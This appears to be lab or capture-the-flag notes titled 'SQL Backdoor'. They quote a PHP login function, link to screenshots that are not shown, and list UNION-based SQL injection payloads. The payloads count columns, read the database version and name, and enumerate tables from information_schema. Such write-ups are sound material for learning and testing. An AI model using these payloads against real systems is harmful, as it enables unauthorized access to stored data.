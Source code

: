 ## SQL Backdoor

```php
	public function login()
	{
		if (!empty($_POST)) {
			if (empty($_POST["catname"]) || empty($_POST["password"]) || empty($_POST["agreement"])) {
				error_log("Invalid POST parameters: " . var_export($_POST, true));
				$this->Redirect("/?err=login");return;
			}
			$stmt = $this->db->Query("SELECT * FROM `accounts` WHERE username = ? AND password = SHA(?)",
				array($_POST["catname"], $_POST["password"]));
			$account = $stmt->fetch();
			if (!$account) {
				error_log("Invalid credentials: " . var_export($_POST, true));
				$this->Redirect("/?err=login");return;
			}
			$_SESSION["auth"] = $account;
		}
		$this->Redirect("/");
	}
```

![[Pasted image 20210429153633.png]]

![[Pasted image 20210429153658.png]]

![[Pasted image 20210429154116.png]]

Payload: **test' UNION SELECT 1,2,3,4,5,6,7,8 -- -**

![[Pasted image 20210429154139.png]]

Payload: **'UNION SELECT 1,2,@@version,4,5,database(),7,8-- -**

![[Pasted image 20210429154635.png]]

![[Pasted image 20210429202754.png]]

![[Pasted image 20210429203635.png]]

![[Pasted image 20210429203619.png]]

Payload: **'UNION SELECT 1,2,3,4,5,table_name,7,8 FROM information_schema.tables WHEREtable_schema='web_4904' LIMIT 0,1-- -**

![[Pasted image 20210429204113.png]]

Payload: **'UNION SELECT 1,2,3,4,5,table_name,7,8 FROM information_schema.tables WHERE table_schema='web_4904' LIMIT 1,1-- -**
